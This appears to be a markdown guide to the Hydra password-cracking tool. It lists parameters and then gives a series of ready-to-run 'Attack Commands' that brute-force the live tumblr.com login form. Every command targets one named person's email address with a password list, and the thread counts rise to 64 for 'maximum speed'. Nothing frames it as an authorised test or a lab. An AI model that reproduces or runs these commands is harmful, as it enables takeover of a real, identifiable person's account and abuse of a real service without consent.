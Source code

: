 ## 🔧 Hydra Command Parameters

### Basic Parameters
- `-l username` - Single username
- `-L usernames.txt` - Username list file
- `-p password` - Single password
- `-P passwords.txt` - Password list file
- `-t 32` - Number of parallel threads (default: 16)
- `-v` - Verbose output
- `-f` - Stop after first valid password
- `-o results.txt` - Save results to file

### Advanced Parameters
- `-w 2` - Wait time between attempts (seconds)
- `-W 5` - Wait time between login attempts (seconds)
- `-x 1:8:a1` - Brute force mode (min:max:charset)
- `-M targets.txt` - Multiple target hosts
- `-d` - Debug mode (show raw HTTP)
- `-R resume.txt` - Resume from previous session

## 🎯 Attack Commands

### 1. Basic Attacks

#### Standard Attack
```bash
hydra -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### High-Speed Attack (32 threads)
```bash
hydra -t 32 -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

#### Maximum Speed (64 threads)
```bash
hydra -t 64 -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

### 2. Output and Monitoring

#### Save Results to File
```bash
hydra -t 32 -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect" -o results.txt
```

#### Verbose Output
```bash
hydra -t 32 -v -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```
